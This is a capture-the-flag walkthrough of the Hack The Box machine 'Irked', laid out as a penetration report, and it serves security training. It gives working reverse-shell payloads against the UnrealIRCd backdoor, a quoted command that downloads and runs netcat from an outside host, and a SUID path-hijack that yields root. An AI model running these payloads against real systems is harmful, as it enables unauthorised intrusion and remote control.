

---
metaLinks:
  alternates:
    - >-
      https://app.gitbook.com/s/qDX4NWkPelZggTpGCfyF/course-review/cyber-security-courses-journey/oscp-journey/ctf/hack-the-box/linux-boxes/irked-easy
---

# ✅ Irked (Easy)

## Lesson Learn



## Report-Penetration

**Vulnerable Exploit:** Command Execution

**System Vulnerable:** 10.10.10.117

**Vulnerability Explanation:** The machine is vulnerable to Command execution which could allow us inject reverse shell and gain initial foothold on the machine.

**Privilege Escalation Vulnerability:** Misconfigure of SETUID.

**Vulnerability Fix:** Apply patch or upgrade the syste&#x6D;**.**

**Severity:** High

**Step to Compromise the Host:**&#x20;

## Reconnaissance

```
└─$ nmap -sC -sV -T4 -p- 10.10.10.117 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-14 01:29 EST
Nmap scan report for 10.10.10.117
Host is up (0.043s latency).
Not shown: 65528 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 6a:5d:f5:bd:cf:83:78:b6:75:31:9b:dc:79:c5:fd:ad (DSA)
|   2048 75:2e:66:bf:b9:3c:cc:f7:7e:84:8a:8b:f0:81:02:33 (RSA)
|   256 c8:a3:a2:5e:34:9a:c4:9b:90:53:f7:50:bf:ea:25:3b (ECDSA)
|_  256 8d:1b:43:c7:d0:1a:4c:05:cf:82:ed:c1:01:63:a2:0c (ED25519)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Site doesn't have a title (text/html).
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          33073/udp   status
|   100024  1          41173/udp6  status
|   100024  1          46099/tcp   status
|_  100024  1          47374/tcp6  status
6697/tcp  open  irc     UnrealIRCd
8067/tcp  open  irc     UnrealIRCd
46099/tcp open  status  1 (RPC #100024)
65534/tcp open  irc     UnrealIRCd
Service Info: Host: irked.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Enumeration

### Port 80 Apache/2.4.10

First I will go through port 80, there is a simple webpage and the source code nothing interest.

.png>)

Let start with Gobuster to find hidden directory.

```
└─$ gobuster dir -u http://10.10.10.117 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50                 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.117
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/11/14 01:30:52 Starting gobuster in directory enumeration mode
===============================================================
/manual               (Status: 301) [Size: 313] [--> http://10.10.10.117/manual/]
/server-status        (Status: 403) [Size: 300]                                  
                                                                                 
===============================================================
2021/11/14 01:34:10 Finished
===============================================================
```

Following through /manual directory we just see a **apache 2.4.**&#x20;

.png>)

Let just skip **port 22** and **port 111** due to we have less chance on these ports and move on to other port.

### Port 6697, 8067, 65534 (IRC UnrealIRCd)

Let check if IRC is vulnerable or not.

```
└─$ ls /usr/share/nmap/scripts/irc*   
/usr/share/nmap/scripts/irc-botnet-channels.nse  
/usr/share/nmap/scripts/irc-info.nse        
/usr/share/nmap/scripts/irc-unrealircd-backdoor.nse
/usr/share/nmap/scripts/irc-brute.nse            
/usr/share/nmap/scripts/irc-sasl-brute.nse
```

We found it's vulnerable on service port 8067.

```
└─$ nmap -p6697,8067,65534 --script irc-unrealircd-backdoor 10.10.10.117
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-14 01:54 EST
Nmap scan report for 10.10.10.117
Host is up (0.043s latency).

PORT      STATE SERVICE
6697/tcp  open  ircs-u
8067/tcp  open  infi-async
|_irc-unrealircd-backdoor: Looks like trojaned version of unrealircd. See http://seclists.org/fulldisclosure/2010/Jun/277
65534/tcp open  unknown
```

## Exploitation

### #1 Namp (8067)

Checking on the nmap script, we found that it's executed arbitrary command.

```
<code>
  $ nmap -d -p6667 --script=irc-unrealircd-backdoor.nse --script-args=irc-unrealircd-backdoor.command='wget http://www.javaop.com/~ron/tmp/nc && chmod +x ./nc && ./nc -l -p 4444 -e /bin/sh' <target>
  $ ncat -vv localhost 4444
  Ncat: Version 5.30BETA1 ( https://nmap.org/ncat )
  Ncat: Connected to 127.0.0.1:4444.
  pwd
  /home/ron/downloads/Unreal3.2-bad
  whoami
  ron
</code>
```

Let start our netcat listener on port 4444.

```
nc -lvp 4444
```

Then, execute the command reverse shell to our machine.


```
└─$ nmap -p8067 --script irc-unrealircd-backdoor --script-args=irc-unrealircd-backdoor.command="nc -e /bin/bash 10.10.14.31 4444" 10.10.10.117 
```


.png>)

### #2 Manual (6697)

Let search for public exploit of search UnrealIRCd.

```
└─$ searchsploit unrealircd
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                              |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
UnrealIRCd 3.2.8.1 - Backdoor Command Execution (Metasploit)                                                                                                | linux/remote/16922.rb
UnrealIRCd 3.2.8.1 - Local Configuration Stack Overflow                                                                                                     | windows/dos/18011.txt
UnrealIRCd 3.2.8.1 - Remote Downloader/Execute                                                                                                              | linux/remote/13853.pl
UnrealIRCd 3.x - Remote Denial of Service                                                                                                                   | windows/dos/27407.pl
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
Papers: No Results
```

Let examine on **UnrealIRCd 3.2.8.1** - Backdoor Command Execution (Metasploit) &#x20;

```
	def exploit
		connect

		print_status("Connected to #{rhost}:#{rport}...")
		banner = sock.get_once(-1, 30)
		banner.to_s.split("\n").each do |line|
			print_line("    #{line}")
		end

		print_status("Sending backdoor command...")
		sock.put("AB;" + payload.encoded + "\n")

		handler
		disconnect
	end
```

Start netcat listener on port 4444.

```
nc -lvp 4444
```

Let connect to the port 6697 via netcat and execute netcat reverse shell.

```
└─$ nc 10.10.10.117 6697 -v                                                                                                                   
10.10.10.117: inverse host lookup failed: Unknown host
(UNKNOWN) [10.10.10.117] 6697 (ircs-u) open
:irked.htb NOTICE AUTH :*** Looking up your hostname...
:irked.htb NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
AB; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.31 4444 > /tmp/f
```

.png>)

## Privilege Escalation

### Shell as djmardov

As we are under user **ircd**, we don't have permission to read the flag under user **djmardov.**

```
ircd@irked:/home/djmardov/Documents$ ls
user.txt
ircd@irked:/home/djmardov/Documents$ cat user.txt 
cat: user.txt: Permission denied
```

Listing the files on directory Document, we found file **.backup** which contain interesting text.

```
ircd@irked:/home/djmardov/Documents$ ls -la
total 16
drwxr-xr-x  2 djmardov djmardov 4096 May 15  2018 .
drwxr-xr-x 18 djmardov djmardov 4096 Nov  3  2018 ..
-rw-r--r--  1 djmardov djmardov   52 May 16  2018 .backup
-rw-------  1 djmardov djmardov   33 May 15  2018 user.txt

ircd@irked:/home/djmardov/Documents$ cat .backup 
Super elite steg backup pw
UPupDOWNdownLRlrBAbaSSss
```

Let start install tool [**Steghide** ](https://www.kali.org/tools/steghide/)is steganography program which hides bits of a data file in some of the least significant bits of another file in such a way that the existence of the data file is not visible and cannot be proven.

```
sudo apt install steghide
```

Let download the image file on the webpage that we found. Then, extract the hidden password in the image with the password in backup file.

```
wget http://10.10.10.117/irked.jpg
```

```
└─$ steghide extract -sf irked.jpg -p UPupDOWNdownLRlrBAbaSSss
wrote extracted data to "pass.txt".

└─$ cat pass.txt     
Kab6h+m+bbp2J:HG
```

Let try to ssh with user djmardov and password we just extracted. We're now in djmardov permission and we can read the user flag.

```
└─$ ssh djmardov@10.10.10.117                                                                                                                                                           130 ⨯
djmardov@10.10.10.117's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue May 15 08:56:32 2018 from 10.33.3.3
djmardov@irked:~$ whoami
djmardov
djmardov@irked:~$ id
uid=1000(djmardov) gid=1000(djmardov) groups=1000(djmardov),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),110(lpadmin),113(scanner),117(bluetooth)
djmardov@irked:~$ 
djmardov@irked:~$ cat /home/djmardov/Documents/user.txt
4a66a7......................
```

### Shell as root

### SUID viewuser

Now, let check for misconfigured on SetUID. Interesting one is **`/usr/bin/viewuser`**.

```
djmardov@irked:~$ find / -type f -perm -4000 -ls 2>/dev/null
404330  356 -rwsr-xr--   1 root     messagebus   362672 Nov 21  2016 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
394848   12 -rwsr-xr-x   1 root     root         9468 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
412270   16 -rwsr-xr-x   1 root     root        13816 Sep  8  2016 /usr/lib/policykit-1/polkit-agent-helper-1
410047  552 -rwsr-xr-x   1 root     root       562536 Nov 19  2017 /usr/lib/openssh/ssh-keysign
408970   16 -rwsr-xr-x   1 root     root        13564 Oct 14  2014 /usr/lib/spice-gtk/spice-client-glib-usb-acl-helper
409724 1060 -rwsr-xr-x   1 root     root      1085300 Feb 10  2018 /usr/sbin/exim4
424276  332 -rwsr-xr--   1 root     dip        338948 Apr 14  2015 /usr/sbin/pppd
394369   44 -rwsr-xr-x   1 root     root        43576 May 17  2017 /usr/bin/chsh
410065   96 -rwsr-sr-x   1 root     mail        96192 Nov 18  2017 /usr/bin/procmail
394371   80 -rwsr-xr-x   1 root     root        78072 May 17  2017 /usr/bin/gpasswd
393000   40 -rwsr-xr-x   1 root     root        38740 May 17  2017 /usr/bin/newgrp
409644   52 -rwsr-sr-x   1 daemon   daemon      50644 Sep 30  2014 /usr/bin/at
412272   20 -rwsr-xr-x   1 root     root        18072 Sep  8  2016 /usr/bin/pkexec
424835   12 -rwsr-sr-x   1 root     root         9468 Apr  1  2014 /usr/bin/X
394373   52 -rwsr-xr-x   1 root     root        53112 May 17  2017 /usr/bin/passwd
394368   52 -rwsr-xr-x   1 root     root        52344 May 17  2017 /usr/bin/chfn
1062682    8 -rwsr-xr-x   1 root     root         7328 May 16  2018 /usr/bin/viewuser
914060   96 -rwsr-xr-x   1 root     root        96760 Aug 13  2014 /sbin/mount.nfs
783487   40 -rwsr-xr-x   1 root     root        38868 May 17  2017 /bin/su
783401   36 -rwsr-xr-x   1 root     root        34684 Mar 29  2015 /bin/mount
792821   36 -rwsr-xr-x   1 root     root        34208 Jan 21  2016 /bin/fusermount
792836  160 -rwsr-xr-x   1 root     root       161584 Jan 28  2017 /bin/ntfs-3g
783402   28 -rwsr-xr-x   1 root     root        26344 Mar 29  2015 /bin/umount
```

Let try to execute the /usr/bin/viewuser, and it shows error **/tmp/listusers** not found.

```
djmardov@irked:~$ /usr/bin/viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2021-11-14 01:28 (:0)
djmardov pts/1        2021-11-14 02:27 (10.10.14.31)
sh: 1: /tmp/listusers: not found
```

Let create create file name listusers in /tmp directory with bash command. Then, give executed permission to the file. Once, we executed, we are now root.

```
djmardov@irked:~$ echo "bash" > /tmp/listusers; chmod +x /tmp/listusers
djmardov@irked:~$ /usr/bin/viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2021-11-14 01:28 (:0)
djmardov pts/1        2021-11-14 02:27 (10.10.14.31)
root@irked:~# whoami
root
root@irked:~# id
uid=0(root) gid=1000(djmardov) groups=1000(djmardov),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),110(lpadmin),113(scanner),117(bluetooth)
root@irked:~# 
```
